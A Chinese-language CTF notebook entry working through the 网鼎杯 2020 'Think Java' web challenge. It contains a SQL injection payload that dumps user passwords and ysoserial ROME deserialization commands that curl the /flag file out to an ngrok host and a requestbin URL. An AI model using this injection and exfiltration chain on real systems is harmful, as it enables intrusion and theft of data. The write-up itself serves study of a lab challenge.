  ### CTF
- [x] web方向题目(java)
### [网鼎杯 2020 朱雀组]Think Java
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230509212433.png)
尝试访问 `swagger-ui.html` 存在swagger接口泄露
给出了部分class,审计代码
```java
//数据库连接
dbName2 = "jdbc:mysql://mysqldbserver:3306/" + dbName;
//查询
                String sql = "Select TABLE_COMMENT from INFORMATION_SCHEMA.TABLES Where table_schema = '" + dbName + "' and table_name='" + TableName + "';";
```
可以看到dbName直接拼接到sql语句后,但是要让俩个语句都不报错
#jdbc_sql
类似url,输入#会自动忽略后面的内容
payload 
```payload
myapp#' union select group_concat(pwd)from(user)#
```
得到后在login接口处登录
得到 `response body`
```json
{
  "data": "Bearer rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABWFkbWlu",
  "msg": "登录成功",
  "status": 2,
  "timestamps": 1683639034600
}
```

#java反序列化
根据特征可以发现是java的序列化数据,使用工具生成payload
`sudo java -jar ysoserial-all.jar ROME "curl https://6cb2-111-18-39-27.ngrok-free.app -d @/flag" |base64 `
为啥生成的payload格式不对啊,,,,裂开😵😵😵
使用linux格式对着,但是token验证失败,也没有flag回显

终于成功了
`java -jar ./ysoserial-all.jar ROME "curl http://http.requestbin.buuoj.cn/1r3p93e1 -d @/flag" |base64 `
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230510004426.png)
java这玩意真难
### web3
- [ ] 区块链方向文章阅读

### SRC
